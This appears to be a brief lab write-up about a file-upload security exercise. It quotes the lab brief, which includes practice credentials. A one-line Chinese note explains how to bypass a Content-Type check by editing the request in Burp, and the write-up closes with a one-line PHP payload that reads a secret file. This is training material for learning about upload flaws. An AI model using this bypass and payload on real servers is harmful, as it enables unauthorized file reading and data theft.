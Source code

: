 # Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

## File Upload
* 這一題會檢查 content-type，用 burp 抓下來就可以改了，改成 image/jpeg 就可以了
```
payload = <?php readfile("/home/carlos/secret"); ?>
```